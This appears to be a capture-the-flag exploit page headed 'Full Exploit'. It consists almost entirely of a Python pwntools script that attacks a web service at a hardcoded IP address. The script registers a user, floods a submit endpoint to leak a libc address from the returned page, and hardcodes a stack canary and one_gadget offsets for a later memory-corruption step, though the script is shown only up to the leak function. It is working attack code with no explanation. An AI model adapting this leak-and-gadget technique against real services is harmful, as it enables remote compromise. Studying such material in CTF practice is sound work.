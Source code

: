 ## Full Exploit

```python
#!/usr/bin/env python3 
import requests 
from pwn import * 
import sys 
import urllib.parse 
 
#url = 'http://localhost:39267' 
url = 'http://54.176.255.241:33717' 
submit_url = url + '/submit' 
submit_page = url + '/submit.html' 
register_url = url + '/register' 
 
libc_base = 0x7f6b1b06c000 
canary = 0xfd15c59a46b75400  
 
 
one_gadget = 0xE6C84 
#one_gadget = 0xe6e79 
 
def submit(content, log=True, user='admin'): 
    data = { 
        'word': content 
    } 
    r = requests.post(submit_url, data=data, cookies={'name': user, 'pass': user}) 
    if log: 
        print(r.text) 
    return r 
 
def view_submit(log=True, user='admin'): 
    r = requests.get(submit_page, cookies={'name': user, 'pass': user}) 
    if log: 
        print(r.text) 
    return r 
 
def register(user='admin', log=False): 
    r = requests.get(register_url + '?name={user}&passwd={user}&re_passwd={user}'.format(user=user)) 
    if log: 
        print(r.text) 
 
 
def leak_libc(): 
    register() 
    for i in range(10): 
        submit('a'.ljust(0x1000, 'b'), False) 
    view_submit() 
 
 
    submit('a') 
    res = view_submit() 
    text_start = b'<textarea id="compose-textarea" class="form-control" style="height: 300px" name="word">' 
    idx = res.content.find(text_start) + len(text_start) + 1 
    content = res.content[idx:].strip(b' ').split(b'\n')[0] 
    libc_addr = u64(content.ljust(8, b'\x00')) 
    libc_base = libc_addr - 0x1ebb61 
    print(hex(libc_addr)) 
    print(hex(libc_base)) 
    libc_base = libc_addr - 0x1ec261 
    print(hex(libc_base)) 
```